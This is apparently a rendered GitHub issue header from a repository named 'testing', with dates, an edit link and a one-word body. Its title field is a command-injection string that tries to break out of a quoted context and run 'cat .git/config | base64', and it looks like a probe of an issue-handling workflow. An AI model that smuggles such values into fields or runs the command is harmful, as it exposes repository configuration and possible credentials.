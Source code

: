 ```yaml
---
Title | '); cat .git/config | base64; #
-- | --
Created @ | `2023-06-27T17:44:37Z`
Updated @| `2023-06-27T17:44:37Z`
Labels | ``
Edit @| [here](https://github.com/souragc/testing/issues/156)

---
```

asa
